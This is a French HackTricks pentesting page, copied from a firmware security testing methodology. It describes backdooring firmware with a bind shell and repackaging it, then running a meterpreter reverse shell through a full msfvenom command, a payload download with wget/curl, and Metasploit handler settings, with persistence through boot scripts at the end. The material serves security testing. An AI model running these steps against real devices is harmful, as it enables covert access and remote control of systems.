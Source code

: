 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Travaillez-vous dans une entreprise de **cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !

- Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)

- Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)

- **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) **groupe Discord** ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **Partagez vos astuces de piratage en soumettant des PR au [dépôt hacktricks](https://github.com/carlospolop/hacktricks) et au [dépôt hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


### Cette page a été copiée depuis [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)

Tentative de **téléchargement de micrologiciel personnalisé et/ou de binaires compilés** pour détecter des failles d'intégrité ou de signature. Par exemple, compilez un shell de liaison de porte dérobée qui démarre au démarrage en suivant les étapes suivantes.

1. Extraire le micrologiciel avec firmware-mod-kit (FMK)
2. Identifier l'architecture et l'endianness du micrologiciel cible
3. Construire un compilateur croisé avec Buildroot ou utiliser d'autres méthodes adaptées à votre environnement
4. Utiliser le compilateur croisé pour construire la porte dérobée
5. Copier la porte dérobée dans le micrologiciel extrait /usr/bin
6. Copier le binaire QEMU approprié dans le rootfs du micrologiciel extrait
7. Émuler la porte dérobée en utilisant chroot et QEMU
8. Se connecter à la porte dérobée via netcat
9. Supprimer le binaire QEMU du rootfs du micrologiciel extrait
10. Repackager le micrologiciel modifié avec FMK
11. Tester le micrologiciel avec porte dérobée en l'émulant avec l'outil d'analyse de micrologiciel (FAT) et en se connectant à l'adresse IP et au port de la porte dérobée cible à l'aide de netcat

Si un shell root a déjà été obtenu à partir d'une analyse dynamique, d'une manipulation de chargeur d'amorçage ou de moyens de test de sécurité matérielle, tentez d'exécuter des binaires malveillants précompilés tels que des implants ou des shells inversés. Considérez l'utilisation d'outils de charge utile/implant automatisés utilisés pour les frameworks de commande et de contrôle (C\&C). Par exemple, le framework Metasploit et 'msfvenom' peuvent être exploités en suivant les étapes suivantes.

1. Identifier l'architecture et l'endianness du micrologiciel cible
2. Utiliser `msfvenom` pour spécifier la charge utile cible appropriée (-p), l'adresse IP de l'hôte attaquant (LHOST=), le numéro de port d'écoute (LPORT=), le type de fichier (-f), l'architecture (--arch), la plate-forme (--platform linux ou windows), et le fichier de sortie (-o). Par exemple, `msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux`
3. Transférer la charge utile sur le périphérique compromis (par exemple, exécuter un serveur web local et wget/curl la charge utile sur le système de fichiers) et s'assurer que la charge utile a des autorisations d'exécution
4. Préparer Metasploit pour gérer les demandes entrantes. Par exemple, démarrer Metasploit avec msfconsole et utiliser les paramètres suivants en fonction de la charge utile ci-dessus : use exploit/multi/handler,
   * `set payload linux/armle/meterpreter_reverse_tcp`
   * `set LHOST 192.168.1.245 #adresse IP de l'hôte attaquant`
   * `set LPORT 445 #peut être n'importe quel port inutilisé`
   * `set ExitOnSession false`
   * `exploit -j -z`
5. Exécuter le shell inverse meterpreter sur le périphérique compromis
6. Observer les sessions meterpreter ouvertes
7. Effectuer des activités d'exploitation postérieures

Si possible, identifier une vulnérabilité dans les scripts de démarrage pour obtenir un accès persistant à un périphérique à travers les redémarrages. De telles vulnérabilités surviennent lorsque les scripts de démarrage font référence, [liens symboliques](https://www.chromium.org/chromium-os/chromiumos-design-docs/hardening-against-malicious-stateful-data), ou dépendent du code situé dans des emplacements montés non fiables tels que les cartes SD, et les volumes flash utilisés pour stocker des données en dehors des systèmes de fichiers racine.
